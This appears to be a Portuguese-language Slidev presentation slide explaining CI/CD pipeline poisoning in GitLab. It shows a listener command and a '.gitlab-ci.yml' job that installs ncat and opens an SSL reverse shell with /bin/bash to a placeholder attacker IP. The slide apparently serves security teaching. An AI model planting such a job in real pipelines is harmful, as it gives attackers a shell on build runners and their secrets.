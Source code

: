 # Pipeline Poisoning

<v-clicks>

1. Acesso ao <span v-mark="{ at: 1, color: '#ffaa00', type: 'underline' }">repositório</span>
2. Modificação no <span v-mark="{ at: 2, color: '#ffaa99', type: 'circle' }">`.gitlab-ci.yml`</span>
3. <span v-mark="{ at: 3, color: '#aa1100', type: 'underline' }">Injeção</span> de código malicioso (ex: <span v-mark="{ at: 3, color: '#aa1100', type: 'box' }">reverse shell</span>)
4. Execução <span v-mark="{ at: 3, color: '#3355aa', type: 'highlight' }">automática</span> no runner

</v-clicks>

<v-click at="5">

🎯 *Ganhamos shell dentro do ambiente do runner* 

</v-click>

<v-click at="6">

🔗 [GitLab CI/CD Pipelines](https://docs.gitlab.com/ee/ci/)

</v-click>

<v-click at="7">

```bash
sudo ncat -l 443 --ssl -v
```

```yaml
build-job:
    stage: build
    script:
      - apt update
      - apt install -y ncat
      - ncat <ip_atacante> --ssl -e /bin/bash -v 
```

</v-click>

<style>
h1 {
  background-color:rgb(168, 43, 182);
  background-image: linear-gradient(85deg,rgb(181, 78, 212) 15%,rgb(102, 20, 140) 25%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent; 
  -moz-text-fill-color: transparent;
}
</style>

---
